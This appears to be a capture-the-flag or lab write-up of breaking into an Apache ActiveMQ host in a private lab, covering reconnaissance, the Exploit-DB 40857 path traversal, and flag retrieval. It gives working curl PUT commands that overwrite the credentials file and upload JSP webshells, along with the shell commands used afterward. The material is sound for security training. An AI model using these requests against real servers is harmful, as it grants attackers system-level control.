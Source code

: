 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

## Recon-Enumeration  
nmap -A -p- 10.2.0.15  
![alt text](./img/active01.PNG?raw=true)  
![alt text](./img/active02.PNG?raw=true)  
![alt text](./img/active03.PNG?raw=true)  

enum4linux 10.2.0.15  
![alt text](./img/active04.PNG?raw=true)  
![alt text](./img/active05.PNG?raw=true)  

dirsearch -u http://10.2.0.15:8161/ -w ~/wordlists/big.txt -t 100 -e php,html,aspx,txt,xml -f --full-url  
![alt text](./img/active09.PNG?raw=true)  
![alt text](./img/active06.PNG?raw=true)   

Let’s start Burpsuite and try to login with admin:admin  
![alt text](./img/active07.PNG?raw=true)  

The highlight section looks encoded. Let’s discover with [CyberChef](https://gchq.github.io/CyberChef/)  
![alt text](./img/active08.PNG?raw=true)  

So the credentials are send encoded with base64

In nmap we can see the versions of the applications  
![alt text](./img/active10.PNG?raw=true)  

## Exploit  
Let’s try to find exploit to them…  
![alt text](./img/active11.PNG?raw=true)  
![alt text](./img/active12.PNG?raw=true)  

We didn't found an exploit for this version of Jetty, however to ActiveMQ we have some. Let’s read the 40857.txt

searchsploit -x windows/remote/40857.txt  
![alt text](./img/active13.PNG?raw=true)  
![alt text](./img/active14.PNG?raw=true)  
  
We can just follow the steps:  
Run the command: echo admin: admin, admin > jetty-realm.properties  
Run the command: touch cmd.jsp  
Put he above lines in the cmd.jsp file:  
PS: Is the same on the exploit description  
![alt text](./img/active26.PNG?raw=true)  

Run the commands:  
curl -v -X PUT --data "@jetty-realm.properties" http://10.2.0.15:8161/fileserver/..\\..\\conf\\jetty-realm.properties  
Restart the target machine  
curl -u 'admin:admin' -v -X PUT --data "@cmd.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmd.jsp  
Access the page http://10.2.0.15:8161/admin/cmd.jsp  
Use the credentials admin:admin  
Ready, now we have an webshell  
![alt text](./img/active15.PNG?raw=true)  

## Privesc  
Running whoami we discover we are system:  
![alt text](./img/active16.PNG?raw=true)  

We already have system, however the dir command doesn’t work. So let’s try to get a shell or more information…  
![alt text](./img/active17.PNG?raw=true)  
![alt text](./img/active18.PNG?raw=true)  

Ok, i had some problems to run some commands and get shell. So i uploaded another .jsp webshell with the above code:  
PS: On kali is the same code of the file /usr/share/webshells/jsp/cmdjsp.jsp  
![alt text](./img/active25.PNG?raw=true)  

Run the command:  
curl -u 'admin:admin' -v -X PUT --data "@cmdjsp.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmdjsp.jsp  

Now we have 2 webshells that complement each other  
![alt text](./img/active20.PNG?raw=true)  

cd c:\ & dir *.txt /s /p > c:\windows\temp\aaa.txt & type c:\windows\temp\aaa.txt  
![alt text](./img/active21.PNG?raw=true)  
  
![alt text](./img/active22.PNG?raw=true)  
  
type c:\Users\public\user.txt  
![alt text](./img/active23.PNG?raw=true)  

type c:\Users\Administrador.WIN-439TMFLJJ23\root.txt.txt  
![alt text](./img/active24.PNG?raw=true)  

()